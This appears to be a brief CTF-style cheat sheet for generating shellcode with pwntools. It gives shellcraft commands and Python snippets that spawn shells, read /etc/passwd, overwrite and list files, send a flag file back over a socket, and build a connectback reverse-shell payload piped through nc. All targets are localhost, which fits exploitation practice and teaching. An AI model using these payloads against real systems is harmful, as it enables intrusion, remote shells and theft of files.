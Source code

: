 ## Shellcodes with pwntools

```
arch = [ 'linux', 'amd64', 'arm' ]

shell = 'sh', 'dupsh'
io    = 'cat', 'write_file', 'ls', 'sendfile'
nw    = 'connectback'
```


### sh 
``shellcraft -c i386 sh -f r | strace -ifx demo32 -``

### dupsh
``shellcraft -c i386 dupsh 1 -f r | strace -ifx demo32 -``

### cat
``shellcraft -c i386 cat /etc/passwd  -f r | strace -ifx demo32 -``


### write_file = open_file + write_file 

```python
s = 'this file has been overwritted by me'

sc = ''
sc += asm(shellcode.open_file('./flag', 0x2))
sc += asm(shellcode.write_file(3, s, len(s)))
```

### ls
``shellcraft -c i386 ls /etc -f r | demo32 -``

```python
sc += asm(shellcode.ls('/etc/', out_fd=4))

s = remote('localhost', 31337)
s.send(sc + '\n')
while 1:
    rv = s.recv(1540)
    if len(rv) == 0:
        break
    print parse_getdents(rv)
```

### sendfile = open_file + sendfile
```python
#!python

from pwn import *
context('i386', 'linux')

HOST = 'localhost'
PORT = 31337

s = remote(HOST, PORT)

sc = ''
sc += asm(shellcode.open_file('./flag'))
sc += asm(shellcode.sendfile(in_fd=3, out_fd=4))

s.send(sc + '\n')
print s.recvall()
```

### connectback
``shellcraft -c i386 connectback localhost 31338 3 -f r | nc localhost 31337``
